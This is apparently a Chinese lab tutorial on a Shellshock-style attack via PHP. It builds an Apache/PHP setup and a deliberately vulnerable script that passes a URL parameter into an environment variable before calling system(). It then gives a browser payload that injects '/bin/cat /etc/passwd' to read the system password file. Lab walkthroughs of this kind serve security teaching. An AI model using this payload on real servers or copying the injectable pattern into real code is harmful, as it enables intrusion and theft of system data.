


# 通过PHP代码攻击

!!! Note

    原理：PHP有system函数，可以执行外部命令，该函数是通过/bin/sh来执行的，
    故实验开始前要确保执行过 sudo ln -sf /bin/bash /bin/sh

## php环境搭建

```bash
sudo apt install php libapache2-mod-php
sudo /etc/init.d/apache2 restart
```

测试：
```bash
vi /var/www/html/info.php
```
```php
<?php

phpinfo();
```

显示如下页面则搭建成功：


## 攻击盗取密码

```bash
vi /var/www/html/phptest.php
```

```php
<?php

function getParam()
{
$arg = NULL;
if (isset($_GET["arg"]) && !empty($_GET["arg"]))
{
    $arg = $_GET["arg"];
}
return $arg;
}

$arg = getParam();
putenv("ARG=$arg");
system("strings /proc/$$/environ | grep ARG");

```

通过浏览器执行攻击：

    http://192.168.0.11/phptest.php?arg=() { echo hello;}; /bin/cat /etc/passwd


成功hacker到密码：
